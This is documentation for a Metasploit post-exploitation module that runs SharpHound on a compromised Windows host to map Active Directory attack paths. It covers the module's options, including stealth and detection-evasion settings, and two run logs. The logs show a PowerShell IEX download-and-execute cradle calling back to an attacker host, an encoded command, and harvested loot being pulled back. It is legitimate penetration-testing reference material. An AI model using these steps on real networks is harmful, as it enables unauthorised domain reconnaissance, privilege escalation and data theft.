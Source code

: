 ## Vulnerable Application

This module will execute the BloodHound C# Ingestor (aka SharpHound) to gather sessions, local admin, domain trusts and more.
With this information BloodHound will easily identify highly complex privilege elevation attack paths that would otherwise be
impossible to quickly identify within an Active Directory environment.

This module can take several/many minutes to run due to the volume of data being collected.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session on a Windows domain
  3. Do: `use post/windows/gather/bloodhound`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see that the module is running a powershell in the target machine
  7. You should be able to see, after few minutes, that the module created a loot with the BloodHound results in zip format

## Options

### Method

Which method to use to get shaphound running.  Default is `download`.

  1. `download` requires the compromised host to have connectivity back to metasploit to download and execute the
      payload.  Sharphound is not written to disk.
  2. `disk` requires admin privileges to bypass the execution policy (if it isn't open).  Writes the `sharphound.exe`
     file to disk.  No connectivity is required but a disk write does happen which is likely to get caught by AV.

### CollectionMethode

The collection method to use. Accepted values are `Default`, `Group`,
`LocalAdmin`, `RDP`, `DCOM`, `GPOLocalGroup`, `Session`, `ObjectProps`, `ComputerOnly`, `LoggedOn`, `Trusts`, `ACL`, `Container`,
`DcOnly`, `All`.  The default method is `Default`.

### Domain

Specifies the domain to enumerate. If not specified, will enumerate the current domain your user context specifies.

### Stealth

Use stealth collection options, will sacrifice data quality in favor of much reduced network impact. The default value is `false`.

### ExcludeDomainControllers

Exclude domain controllers from session queries. Useful for ATA environments which detect this behavior. The default value is `false`.

### DomainController

Specify which Domain Controller to request data from. Defaults to closest DC using Site Names.

### LdapPort

Override the port used to connect to LDAP.

### SecureLdap

Uses LDAPs instead of unencrypted LDAP on port 636. The default value is `false`.

### DisableKerbSigning

Disables Kerberos Signing on requests. The default value is `false`.


### OutputFolder

Folder to write the JSON output to.  Default is to enumerate the Windows Temp folder.

### EncryptZip

If the zip should be encrypted by SharpHound using a random password.  Password is stored to `notes`, default is `true`.

### NoSaveCache

If the cache file (.bin) should NOT be written to disk.  Default is `true`.

## Scenarios

### Windows 2012 Domain Controller, Download method

```
msf6 post(windows/gather/bloodhound) > run

[*] Using URL: http://1.1.1.1:8080/127mPhBr3dZ
[*] Loading BloodHound with: IEX (new-object net.webclient).downloadstring('http://1.1.1.1:8080/127mPhBr3dZ')
[*] Invoking BloodHound with: Invoke-BloodHound -OutputDirectory "C:\Users\ADMINI~1\AppData\Local\Temp" -ZipFileName isid -MemCache -ZipPassword ilvtbfgkcmwszdxjn 
[*] 2022-11-13T13:45:21.0298446-05:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
[*] 2022-11-13T13:45:21.4198615-05:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
[*] 2022-11-13T13:45:21.4666492-05:00|INFORMATION|Initializing SharpHound at 1:45 PM on 11/13/2022
[*] 2022-11-13T13:45:22.2154647-05:00|INFORMATION|Loaded cache with stats: 59 ID to type mappings.
[*]  59 name to SID mappings.
[*]  0 machine sid mappings.
[*]  2 sid to domain mappings.
[*]  0 global catalog mappings.
[*] 2022-11-13T13:45:22.2310827-05:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
[*] 2022-11-13T13:45:22.6054639-05:00|INFORMATION|Beginning LDAP search for hoodiecola.com
[*] 2022-11-13T13:45:22.7458626-05:00|INFORMATION|Producer has finished, closing LDAP channel
[*] 2022-11-13T13:45:22.7614632-05:00|INFORMATION|LDAP channel closed, waiting for consumers
[*] 2022-11-13T13:45:53.5431310-05:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 87 MB RAM
[*] 2022-11-13T13:46:06.1354911-05:00|INFORMATION|Consumers finished, closing output channel
[*] 2022-11-13T13:46:06.2134955-05:00|INFORMATION|Output channel closed, waiting for output task to complete
[*] Closing writers
[*] 2022-11-13T13:46:06.5255088-05:00|INFORMATION|Status: 100 objects finished (+100 2.325581)/s -- Using 89 MB RAM
[*] 2022-11-13T13:46:06.5255088-05:00|INFORMATION|Enumeration finished in 00:00:43.9260652
[*] 2022-11-13T13:46:06.7283096-05:00|INFORMATION|Saving cache with stats: 59 ID to type mappings.
[*]  59 name to SID mappings.
[*]  0 machine sid mappings.
[*]  2 sid to domain mappings.
[*]  0 global catalog mappings.
[*] 2022-11-13T13:46:06.7439000-05:00|INFORMATION|SharpHound Enumeration Completed at 1:46 PM on 11/13/2022! Happy Graphing!
[+] Downloaded C:\Users\ADMINI~1\AppData\Local\Temp\20221113134605_isid.zip: /root/.msf4/loot/20221113141655_default_2.2.2.2_windows.ad.blood_027677.zip
[+] Zip password: ilvtbfgkcmwszdxjn
[*] Post module execution completed
```

### Windows 10 non-AD host, Windows Server 2012 AD, Disk Method

```
meterpreter > sysinfo
Computer        : WIN10PROLICENSE
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : hoodiecola
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 post(windows/gather/bloodhound) > set method disk
method => disk
msf5 post(windows/gather/bloodhound) > exploit

[*] Uploading sharphound.exe as C:\Users\user\Desktop\qehojlwml.exe
[*] Loading BloodHound with: . C:\Users\user\Desktop\qehojlwml.exe --outputdirectory "C:\Users\user\AppData\Local\Temp" --zipfilename eiqxerh --encryptzip --nosavecache 
[+] EXECUTING:
powershell.exe -EncodedCommand LgAgAEMAOgBcAFUAcwBlAHIAcwBcAHQAYQByAGEAXABEAGUAcwBrAHQAbwBwAFwAcQBlAGgAbwBqAGwAdwBtAGwALgBlAHgAZQAgAC0ALQBvAHUAdABwAHUAdABkAGkAcgBlAGMAdABvAHIAeQAgACIAQwA6AFwAVQBzAGUAcgBzAFwAdABhAHIAYQBcAEEAcABwAEQAYQB0AGEAXABMAG8AYwBhAGwAXABUAGUAbQBwACIAIAAtAC0AegBpAHAAZgBpAGwAZQBuAGEAbQBlACAAZQBpAHEAeABlAHIAaAAgAC0ALQBlAG4AYwByAHkAcAB0AHoAaQBwACAALQAtAG4AbwBzAGEAdgBlAGMAYQBjAGgAZQAgADsAIAA= -InputFormat None
[*] ----------------------------------------------
[*] Initializing SharpHound at 4:19 PM on 6/3/2020
[*] ----------------------------------------------
[*] 
[*] Resolved Collection Methods: Group, Sessions, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container
[*] 
[*] [+] Creating Schema map for domain HOODIECOLA.COM using path CN=Schema,CN=Configuration,DC=HOODIECOLA,DC=COM
[*] [+] Cache File not Found: 0 Objects in cache
[*] 
[*] [+] Pre-populating Domain Controller SIDS
[*] Status: 0 objects finished (+0) -- Using 19 MB RAM
[*] Status: 63 objects finished (+63 21)/s -- Using 26 MB RAM
[*] Enumeration finished in 00:00:03.3219377
[*] Compressing data to C:\Users\user\AppData\Local\Temp\20200603161905_eiqxerh.zip
[*] Password for Zip file is QEqUpTtU0v. Unzip files manually to upload to interface
[*] 
[*] SharpHound Enumeration Completed at 4:19 PM on 6/3/2020! Happy Graphing!
[*] 
[+] Downloaded C:\Users\user\AppData\Local\Temp\20200603161905_eiqxerh.zip: /metasploit/.msf4/loot/20200603192705_default_2.2.2.2_windows.ad.blood_749446.zip
[+] Zip password: QEqUpTtU0v
[*] Deleting C:\Users\user\Desktop\qehojlwml.exe
[*] Post module execution completed

msf5 post(windows/gather/bloodhound) > notes

Notes
=====

 Time                     Host          Service  Port  Protocol  Type                     Data
 ----                     ----          -------  ----  --------  ----                     ----
 2020-06-03 23:27:05 UTC  2.2.2.2                           Sharphound Zip Password  "Bloodhound/Sharphound loot /metasploit/.msf4/loot/20200603192705_default_2.2.2.2_windows.ad.blood_749446.zip password is QEqUpTtU0v"

```
